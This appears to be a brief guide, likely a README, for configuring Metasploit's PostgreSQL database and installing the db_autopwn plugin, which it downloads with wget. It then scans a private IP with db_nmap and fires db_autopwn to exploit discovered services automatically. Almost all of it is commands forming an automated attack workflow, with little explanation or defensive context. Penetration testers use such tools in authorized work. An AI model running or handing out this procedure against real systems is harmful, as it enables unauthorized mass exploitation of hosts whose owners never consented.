 ### 1. setup postgresql

```
service postgresql start
sudo -u postgres psql postgres
postgres=# alter user postgres with password 'postgres';
postgres=# \password postgres
postgres=# \q
```

### 2. connect postgres

```
msf> db_disconnect
msf> db_connect postgres:postgres@127.0.0.1/postgres
msf> db_status
```

### 3. install db_autopwn

```
msf> load db_autopwn
[-] Failed to load plugin from /opt/metasploit-framework/embedded/framework/plugins/db_autopwn
wget https://raw.githubusercontent.com/hahwul/metasploit-autopwn/master/db_autopwn.rb
cp db_autopwn.rb /opt/metasploit-framework/embedded/framework/plugins/
msf> load db_autopwn
[*] Successfully loaded plugin: db_autopwn
```

### 4. use db_autopwn

```
msf> db_nmap -sV -O -v -T 5 192.168.5.123
msf> db_autopwn  -e  -t  -r  -p
```

### Reference
```
https://github.com/hahwul/metasploit-autopwn/blob/master/README.md
http://www.cnblogs.com/zlslch/p/6881649.html
```
